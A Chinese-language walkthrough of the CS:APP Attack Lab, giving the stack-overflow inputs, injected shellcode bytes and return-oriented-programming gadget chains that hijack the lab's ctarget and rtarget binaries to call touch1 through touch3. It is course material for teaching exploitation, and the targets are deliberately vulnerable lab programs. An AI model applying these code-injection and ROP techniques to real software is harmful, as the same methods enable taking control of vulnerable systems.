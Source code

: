 # Part I: Code Injection Attacks
由于Lab程序编译平台比较老，运行时会出现segment fault。可以自己链接一个printf函数来解决这个问题。详细见[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04](https://blog.rijuyuezhu.top/posts/db646f34/)  
运行时使用如下命令
```
$ LD_PRELOAD=./printf.so ./ctarget -q
```
或在GDB中使用
```
(gdb) set environment LD_PRELOAD=./printf.so
```

## Phase 1
阅读`getbuf`函数反汇编代码可以发现调用时分配了`0x28`大小的栈空间，该空间包括了`BUFFER_SIZE`指定的空间大小和编译器预留的空间。再往上`0x8`字节即为返回地址。输入字符串覆盖该地址即可。
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
```
查找`touch1`函数的地址为`0x4017c0`, 小端表示并扩展到`0x8`字节得到
```
c0 17 40 00 00 00 00 00
```
前面随便填充`0x28`字节的字符即可

## Phase 2
使用gdb查看运行时栈地址, 注意到调用`getbuf`后栈地址维持`0x5561dca0`不变, 考虑直接写入指令进行攻击
注意此时栈指针`%rsp`经过经过一次`ret`后值为`0x5561dca8`, 顶部 8 bytes写入`touch2`地址进行`ret`
```
0x5561dca8 ec 17 40 00 00 00 00 00
```
继续往上8 bytes用于存储需要传入的`cookie`, 起始地址距栈顶`0x8`
```
0x5561dcb0 fa 97 b9 59 00 00 00 00
```
攻击执行的汇编指令如下
```
mov 0x8(%rsp),%rdi
ret
```
参考已有的反汇编代码可以写为16进制指令
```
mov 0x8(%rsp),%rdi  48 8b 7c 24 08
ret                 c3
```
指令共6 bytes. 反推从`getbuf`返回时的执行指令地址为`0x5561dca8 + 0x8 + 0x8 = 0x5561dcb8`
整理为写入后的栈帧
```
0x5561dcbd c3 
0x5561dcb8 48 8b 7c 24 08
0x5561dcb0 fa 97 b9 59 00 00 00 00
0x5561dca8 ec 17 40 00 00 00 00 00
0x5561dca0 b8 dc 61 55 00 00 00 00 
```

## Phase 3
方法类似Phase 2, 区别在于写入的值和栈上数据的位置布局. 首先考虑第一次`ret`跳转后, 顶部写入`touch3`地址准备进行下一次`ret`
```
0x5561dca8 fa 18 40 00 00 00 00 00
```
写入`cookie`的十六进制表示字符串(包含一个`\0`终止符)
```
0x5561dcb8 00
0x5561dcb0 35 39 62 39 39 37 66 61
```
此后写入执行代码
```
lea 0x8(%rsp),%rdi
ret
```
参考已有的反汇编代码改写为二进制指令
```
lea 0x8(%rsp),%rdi   48 8d 7c 24 08
ret                  c3
```
故首次写入的ret返回地址应为`0x5561dca8 + 0x8 + 0x8 + 0x1 = 0x5561dcb9`. 整理写入后的栈帧
```
0x5561dcbe c3
0x5561dcb9 48 8d 7c 24 08
0x5561dcb8 00
0x5561dcb0 35 39 62 39 39 37 66 61
0x5561dca8 fa 18 40 00 00 00 00 00
0x5561dca0 b9 dc 61 55 00 00 00 00 
```

## Phase 4
由于可以在Gadget中使用`pop`指令将数据从栈保存至寄存器
搜索`pop %rdi`的二进制指令`5f`没有搜索到相关片段, 可以使用不直接存入`%rdi`, 而是先`pop`到某一寄存器后通过`movq`指令存入`%rdi`.  
依此搜索`pop`各个寄存器的二进制指令, `pop %rax`对应的`58`指令在代码段出现
```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret    

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	ret    

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret    
```
排除无法解析为指令的`92`, 剩下两个函数均可用作Gadget.
下一步寻找形如`movq %rax,%rdi`的转移指令, 找到
```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret    
```
执行转移后即`ret`. 使用这两个函数完成ROP攻击.  整理写入数据
```
ec 17 40 00 00 00 00 00 <- touch2入口地址
a2 19 40 00 00 00 00 00 <- addval_273中的movq地址
fa 97 b9 59 00 00 00 00 <- cookie
ab 19 40 00 00 00 00 00 <- addval_219中的pop指令地址
```

## Phase 5
首先考虑`cookie`字符串的布局.  假设`cookie`按照下列方式布局
```
fa 18 40 00 00 00 00 00 <- touch3入口地址
...                     <- 多次ret
00 00 00 00 00 00 00 00 <- 填充0
35 39 62 39 39 37 66 61 <- cookie字符串
...                     <- 多次ret
```
此时发现如果调用`touch3`时想将`%rdi`设置为栈上字符串的地址, 必须在栈指针指向`cookie`的那次调用中使用`mov`指令保存栈指针后又一次用`pop`修改栈指针使得下次能够返回到代码段继续执行.  
以此为条件搜索所有`pop`指令, 未找到满足该条件的Gadget, 因此可以判断栈上内存布局应当为
```
00 
35 39 62 39 39 37 66 61 <- cookie字符串
fa 18 40 00 00 00 00 00 <- touch3入口地址
...                     <- 多次ret
```
在这样的布局下, 必须使用`lea`指令对栈指针进行偏移, 据此搜索得到
```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret   
```
函数可用于此目的. 于是向前推之需要将栈指针(或经多次转存)保存至`%rdi`或`%rsi`, 再使用`pop`指令保存偏移的常量至另一寄存器，此后调用`add_xy`执行偏移, 再将数据从`%rax`转移至`%rdi`.  
搜索`mov %rsp,%...`指令找到
```
0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	ret    
```
该Gadget进行`%rsp -> %rax`. 继续搜索得到
```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret    
```
该Gadget进行`%rax -> %rdi`. 继续搜索得到
```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret    
```
该Gadget进行`pop %rax`. 继续搜索得到
```
00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	ret   
```
该Gadget进行`%eax -> %edx`. 继续搜索得到
```
0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	ret    
```
该Gadget进行`%edx -> %ecx`. 继续搜索得到
```
0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	ret    
```
该Gadget进行`%ecx -> %esi`. 至此所有Gadget备齐, 整理栈帧
```
00
35 39 62 39 39 37 66 61     # cookie字符串
fa 18 40 00 00 00 00 00     # touch3入口地址
c5 19 40 00 00 00 00 00     # %rax->rdi
d6 19 40 00 00 00 00 00     # add_xy
13 1a 40 00 00 00 00 00     # %ecx->esi
69 1a 40 00 00 00 00 00     # %edx->ecx
dd 19 40 00 00 00 00 00     # %eax->%edx
48 00 00 00 00 00 00 00     # cookie 字符串偏移 9 * 0x8 = 0x48
ab 19 40 00 00 00 00 00     # pop %rax
c5 19 40 00 00 00 00 00     # %rax->rdi     <- 保存的栈指针指向此处
ad 1a 40 00 00 00 00 00     # %rsp->%rax
```
